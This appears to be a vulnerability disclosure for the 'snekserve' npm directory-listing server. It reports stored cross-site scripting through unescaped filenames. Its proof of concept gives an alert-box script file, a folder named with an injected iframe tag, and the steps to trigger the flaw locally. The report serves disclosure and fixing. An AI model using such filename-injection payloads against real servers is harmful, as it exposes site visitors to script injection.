 # :bug: Description

The `snekserve` project is a `directory listing` server which is vulnerable against `stored XSS` because the `filename` isn't checked correctly, leading to `HTML/JS injection`

# :fire: POC

1. Create a PoC file like this:

```html
<!-- malicious.html -->
<script>alert(document.domain)</script>
```

2. Run the following commands: `npm i snekserve -g # Installs the CLI version of the module`
3. `mkdir '<iframe src=..\malicious.html>' # Creates the malicious *HTML formatted* folder`
4. `snekserve # Starts the server`
5. Open a browser and go on http://localhost:8080
6. `XSS` triggered

**Notes:**
The attack can work even if the `malicious file` isn't inside the server it-self, and while the attacker needs a limited access to the `system` to create a new `malicious filename`, it could be possible when it's used among other `ECM` softwares.
